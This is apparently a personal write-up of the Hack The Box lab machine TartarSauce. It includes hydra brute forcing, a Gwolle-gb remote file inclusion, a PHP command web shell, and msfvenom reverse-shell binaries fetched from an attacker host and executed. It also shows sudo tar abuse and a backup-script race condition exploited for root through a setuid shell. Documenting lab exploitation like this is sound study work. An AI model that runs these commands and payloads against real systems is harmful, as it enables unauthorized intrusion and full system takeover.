










# TartarSauce - 10.10.10.88


# nmap

```sh
❯ sudo rustscan --ulimit 5000 -a 10.10.10.88 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.10.88
Host is up, received user-set (0.012s latency).
Scanned at 2021-08-24 20:37:33 EDT for 6s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page
```


# 80 - http

Standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.10.88 | tee whatweb.log
# Summary   : Apache[2.4.18], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.10.88/
http://10.10.10.88/index.html           (Status: 200) [Size: 10766]
http://10.10.10.88/robots.txt           (Status: 200) [Size: 208]
http://10.10.10.88/server-status        (Status: 403) [Size: 299]
http://10.10.10.88/webservices          (Status: 403) [Size: 298]
```

Browsing to page:



Fancy ASCII-art, but nothing else.

Robots.txt is interesting.

```
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

Browsing to `/webservices/tar/tar/source/` gives 404 not found. Same goes for `/webservices/easy-file-uploader/`, `/webservices/developmental/`, and `/webservices/phpmyadmin/`. Running gobuster on them while continuing on.

```sh
❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-tartarsource.txt -u http://10.10.10.88/webservices/tar/tar/source/
# no hits

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-phpmyadmin.txt -u http://10.10.10.88/webservices/phpmyadmin/
# no hits

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-developmental.txt -u http://10.10.10.88/webservices/developmental
# no hits

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-easyfileuploader.txt -u http://10.10.10.88/webservices/easy-file-uploader/
# no hits

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-webservices.txt -u http://10.10.10.88/webservices
http://10.10.10.88/webservices/wp                   (Status: 200) [Size: 11237]
```

We have an interesting option to explore with the `wp` path. Running another gobuster on it:

```sh
❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster-wp.txt -u http://10.10.10.88/webservices/wp
http://10.10.10.88/webservices/wp/index.php            (Status: 200) [Size: 11237]
http://10.10.10.88/webservices/wp/license.txt          (Status: 200) [Size: 19935]
http://10.10.10.88/webservices/wp/readme.html          (Status: 200) [Size: 7413]
http://10.10.10.88/webservices/wp/wp-load.php          (Status: 200) [Size: 0]
http://10.10.10.88/webservices/wp/wp-includes          (Status: 403) [Size: 313]
http://10.10.10.88/webservices/wp/wp-mail.php          (Status: 403) [Size: 2768]
http://10.10.10.88/webservices/wp/wp-settings.php      (Status: 500) [Size: 0]
http://10.10.10.88/webservices/wp/wp-content           (Status: 200) [Size: 0]
http://10.10.10.88/webservices/wp/wp-links-opml.php    (Status: 200) [Size: 219]
http://10.10.10.88/webservices/wp/wp-login.php         (Status: 200) [Size: 2338]
http://10.10.10.88/webservices/wp/wp-cron.php          (Status: 200) [Size: 0]
http://10.10.10.88/webservices/wp/wp-blog-header.php   (Status: 200) [Size: 0]
http://10.10.10.88/webservices/wp/wp-config.php        (Status: 200) [Size: 0]
http://10.10.10.88/webservices/wp/wp-trackback.php     (Status: 200) [Size: 135]
http://10.10.10.88/webservices/wp/xmlrpc.php           (Status: 405) [Size: 42]
```

Lots to explore there!

- license.txt - standard license file for WordPress
- readme.html - standard WordPress install instructions
- wp-load.php - blank page
- wp-includes - forbidden directory - gobuster it later!
- wp-mail.php - "action has been disabled by the administrator"
- wp-settings.php - blank page
- wp-content - blank page (directory?)
- wp-links-opml.php - XML comment: `<!-- generator="WordPress/4.9.4" -->`, <==WORDPRESS VERSION!
- wp-login.php - log in form (see below)
- wp-cron.php - blank page
- wp-blog-header.php - blank page
- wp-config.php - blank page
- wp-trackback.php - XML file, error msg: `<message>I really need an ID for this to work.</message>`
- xmlrpc.php - accepts POST requests only
- `/` (root) - weird custom page (see below)

Browsing to wp-login.php:



Tried loging in with `admin:admin`, and redirected to `http://tartarsauce.htb/webservices/wp/wp-login.php`. Noticing domain name in use, so added `10.10.10.88 tartarsauce.htb` to `/etc/hosts`. Refreshing the page makes all resources load properly:


Run wpscan on the site:

```sh
❯ wpscan --url http://tartarsauce.htb/webservices/wp/ | tee wpscan.log
# --- snip ---
[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
```

Check searchsploit:

```sh
❯ searchsploit wordpress 4.9
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts       | multiple/webapps/47690.md
```

- https://www.exploit-db.com/exploits/47690
  - "simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content"

Trying it out on the root page shows all the boilerplate content at once. Not useful here, but maybe elsewhere? Not sure how to make use of that vuln.

Googled "Wordpress user enumeration" in order to figure out how to brute force the login, came across this:

- https://medium.com/@ahmed_elhady/wordpress-username-enumeration-techniques-2ca0510df632

Visited URL with `?author=1` using the "author archives" feature. Led to page with header: `Author: wpadmin`. Time for hydra brute force:

```sh
❯ hydra -V -f -l wpadmin -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.10.88 http-post-form '/webservices/wp/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftartarsauce.htb%2Fwebservices%2Fwp%2Fwp-admin%2F:ERROR'
```

----

While that's running, we'll circle back to the monstra page. Searchsploit for "monstra 3.0.4":

```sh
❯ searchsploit monstra 3.0.4
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Exec | php/webapps/43348.txt
Monstra CMS 3.0.4 - Arbitrary Folder Deletion                                | php/webapps/44512.txt
Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload                      | php/webapps/48479.txt
Monstra cms 3.0.4 - Persitent Cross-Site Scripting                           | php/webapps/44502.txt
Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)                    | php/webapps/49949.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                               | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                               | php/webapps/44646.txt
Monstra-Dev 3.0.4 - Cross-Site Request Forgery (Account Hijacking)           | php/webapps/45164.txt
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looks promising. Browsing to the page:



It's a default home page for Monstra 3.0.4, confirmed by scrolling down to bottom of page, where version is identified.

Clicking around, the only link that's active is the `admin/index.php` path where it says "First make sure you're logged in".

Try default creds: `admin:admin` and it works!



Now that we're logged in, it's time to check out the Authenticated RCE exploit:

- https://www.exploit-db.com/exploits/43348

```txt
Proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

<?php
 $cmd=$_GET['cmd'];
 system($cmd);
?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

Made the file, tried uploading but get error "The file was not uploaded"?

Tried `.php7` extension, FAIL. Tried `.phar` extension, FAIL.

Trying LFI vulnerability from here:

- https://github.com/monstra-cms/monstra/issues/469

Trying to include paths (after making page request to path `monstra-3.0.4/<?php phpinfo(); ?>`:

- `/etc/passwd`
- `/etc/httpd/logs/access.log`
- `/var/log/apache2/access.log`
- `/var/log/apache2/errors.log`

But they all result in blank pages.

Trying out editing of themes. Go to Themes > index > edit. Insert PHP code at top like above. Click "Save and Exit", but it says an error occurred?



Checked back in with password brute force for WP admin page. No hits, so trying again with bigger wordlist:

```sh
❯ hydra -V -f -l wpadmin -P /mnt/vm-share/rockyou.txt 10.10.10.88 http-post-form '/webservices/wp/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftartarsauce.htb%2Fwebservices%2Fwp%2Fwp-admin%2F:ERROR'
```

Trying to inject code by editing snippet:

- https://github.com/monstra-cms/monstra/issues/466



Get same error.

Trying to edit theme chunk:



Get same error.

Guessing this is a rabbit hole. Going back to WordPress.

Bruteforce is still running, no hits. Probably not going to get any at this point. Time to do more thorough enumeration of the WordPress features/plugins.

```sh
❯ wpscan --update \
       --url http://tartarsauce.htb/webservices/wp/ \
       --enumerate ap,at,cb,dbe \
       --detection-mode aggressive \
       --random-user-agent \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive
```

This turns up some interesting results:

```
[+] akismet
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/
 | Last Updated: 2021-08-23T18:00:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 4.1.11

[+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2021-06-04T10:57:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.1.2
```

Searchsploit:



The Gwolle one looks useful.

- https://www.exploit-db.com/exploits/38861

Summary:

```
HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Trying it on the website:

```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.10/
```

With a netcat listener to see what it requests:



Looks like we're in business. Now to try with a PHP payload. Make file `wp-load.php`:

```php
<?php
 $cmd=$_GET['cmd'];
 system($cmd);
?>
```

Then start python http server on port 80

```sh
sudo python3 -m http.server
```

And visit our url with a new query param of the command we want to run:

```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.10/&cmd=id
```



Boom.

Time to turn it into an interactive shell.

```sh
# alias for URL encoding text
❯ alias urlencode='python3 -c '\''import sys,os,urllib.parse as url;s=" ".join(sys.argv[1:]) if len(sys.argv)>1 else sys.stdin.read().encode();print(url.quote_plus(os.fsencode(s)))'\'

# get host architechture
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode uname -a)"
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux

# check wget installed
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode which wget)"
/usr/bin/wget

# make 32-bit linux reverse shell
❯ msfvenom -f elf -o rsh.elf -p linux/x86/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443

# start shell listener
❯ sudo nc -lvnp 443

# download binary on victim
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode wget -P /tmp 10.10.14.14/rsh.elf)"

# set as executable
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode chmod +x /tmp/rsh.elf)"

# execute reverse shell
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode /tmp/rsh.elf)"
```

# PrivEsc

Basic enumeration:

```sh
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

hostname
# TartarSauce

ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:c2:96 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.88/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever

sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Looks like we can run `tar` as the `onuma` user. That's at least a pivot to a normal user, since `tar` is a well known binary for executing a shell ([GTFO-bins](https://gtfobins.github.io/gtfobins/tar/)).

```sh
# pivot to onuma user
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

id
# uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

More basic enumeration:

```sh
netstat -tlpn
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -

mysql -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO)

cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04

cat /var/www/html/webservices/wp/wp-config.php
/** MySQL database username */
define('DB_USER', 'wpuser');
/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');

mysql -u wpuser -p
Enter password: w0rdpr3$$d@t@b@$3@cc3$$
```

Exploring the database:

```mysql
show databases;
-- just information_schema and wp
use wp;
show tables;
-- wp_users, wp_posts, wp_comments
select user_login, user_pass from wp_users;
-- wpadmin:$P$BBU0yjydBz9THONExe2kPEsvtjStGe1
```

Let's see if we can crack the password:

```sh
# https://hashcat.net/wiki/doku.php?id=example_hashes
# mode 400 = phpass
❯ hashcat -O -a0 -w3 --quiet -m 400 '$P$BBU0yjydBz9THONExe2kPEsvtjStGe1' /mnt/vm-share/rockyou.txt
```

Back to enumeration.

Found file `/home/onuma/.config/lxc/client.key`. Is that a privesc vector??? Maybe if I were in the `lxc/lxd` group:

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

In home folder, the `.mysql_history` file has an interesting line that says `create database backuperer;` Also, running linpeas it found a systemd unit file named `/lib/systemd/system/backuperer.service`, with a timer file that has it run every 5 minutes. That file calls a script: `/usr/sbin/backuperer`:

```sh
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

The script runs `tar` as root, which seems like a vulnerability. I'm guessing there is a race condition where the backup `tar` command (compressing the web directory) can stall longer than 30 seconds while we swap out the tempfile for our own tar archive containing a malicious copy of `/etc/passwd` and the check directory for a symlink to `/etc`. But no, the check directory is owned by root, so we can't replace it. Also, it's created right before the tar is extracted into it.

Looking closer, if files differ, the contents are written by diff into the `errormsg` file. So we could use that to read any file in the file system, but not get a shell. If files differ, then the check directory is not deleted, so any files we put in our archive (copied over tmpfile) will be left there until the next run. So putting a suid binary (created on kali) there should give us a vector to root!

```sh
# on kali, make a suid binary reverse shell:
❯ msfvenom -f elf -o rsh.elf -p linux/x86/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 PrependSetuid=true
❯ sudo chown root:root rsh.elf
❯ sudo chmod +s rsh.elf
❯ sudo chmod +x rsh.elf

# package it up in correct folder structure for integrity_chk to find it
❯ mkdir -p var/www/html/
❯ sudo mv rsh.elf var/www/html/
❯ tar -zcvf derp.tar.gz var

# start a netcat listener for shell
sudo nc -lvnp 443

# on victim, download file as onuma user
wget -P /var/tmp 10.10.14.14/derp.tar.gz
```

Make a script to watch for the contents of `/var/tmp` to change:

```sh
#!/bin/bash

BEFORE=$(ls -alh /var/tmp)
while true; do
  AFTER=$(ls -alh /var/tmp)
  if ! cmp -s -- <(echo $BEFORE) <(echo $AFTER); then
    break;
  fi
  sleep 1
done;

ls -alh /var/tmp
```

Then run the following to exploit:

```sh
# wait for tempfile to show up
./watch.sh
cp derp.tar.gz .01c7c6dbcaed40aebd98e71a0dad16dd8ca0138e   # replace hash with file name that appeared
# wait for 'check' directory to show up
./watch.sh
cd check/var/www/html
./rsh.elf
```

And that gives us a root shell!
